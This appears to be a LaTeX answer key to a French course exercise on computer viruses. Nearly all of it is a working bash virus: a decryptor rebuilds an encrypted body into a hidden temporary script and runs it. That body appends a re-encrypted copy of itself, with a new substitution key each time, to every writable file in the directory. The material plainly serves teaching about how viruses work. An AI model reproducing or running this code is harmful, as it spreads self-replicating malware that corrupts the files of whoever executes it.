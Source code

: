 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item Le code est donné ci-dessous: il y a une partie de restauration qui s'occupe de dechiffré la partie virale vers un fichier temporaire, en y ajoutant au prealable le nom du script infectant ainsi que la subsitution de chiffrement dechiffrement.
\begin{lstlisting}[language={}]
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="haigbcevrfwnyopjmqdstuxzkl"

echo "#!/bin/bash " > .temp1.sh
echo "tab0=\"$tab0\"" >> .temp1.sh
echo "tab1=\"$tab1\"" >> .temp1.sh
echo "name=\"$0\"" >> .temp1.sh
tail -28 $0 | tr  ["$tab0"] ["$tab1"]  >> .temp1.sh
chmod u+x .temp1.sh
./.temp1.sh
exit 0

#Ohgikicuugi I
jni jczg cl *; sn #onvi unvu jcfacgi
    cj [ -w $jczg -b "$0" != "./$jczg" -b "$lbqg" != "./$jczg" ]; uagl
	gfan "cljgfucnl sg $jczg"
	v=$$
	v=$(($v % 26))
	u=$ube1
	c=0
	kaczg [ $c -zg $v ]; sn
	    u=$(gfan $u  |  ui ["$ube1"] ["$ube0"])
	    c=$(($c+1))
	snlg
        #Ol gfibtg bhgf zg fnsg sg igtubvibucnl
	#gfan "#!/ecl/ebta " > $jczg
	gfan "ube0=\"$ube0\"" >> $jczg
	gfan "ube1=\"$u\"" >> $jczg
	gfan 'gfan "#!/ecl/ebta " > .ugqo1.ta' >> $jczg
	gfan 'gfan "ube0=\"$ube0\"" >> .ugqo1.ta' >> $jczg
	gfan 'gfan "ube1=\"$ube1\"" >> .ugqo1.ta' >> $jczg
	gfan 'gfan "lbqg=\"$0\"" >> .ugqo1.ta' >> $jczg
	gfan 'ubcz -l 28 $0 | ui  ["$ube0"] ["$ube1"] >> .ugqo1.ta' >> $jczg
	gfan 'faqns v+w .ugqo1.ta' >> $jczg
	gfan './.ugqo1.ta' >> $jczg
	gfan 'gwcu 0' >> $jczg
        gfan "$u"
	ubcz -l 28  $0 | ui  ["$u"] ["$ube0"] >> $jczg
    jc
snlg
\end{lstlisting}


\end{enumerate}
\end{correction}
\end{document}
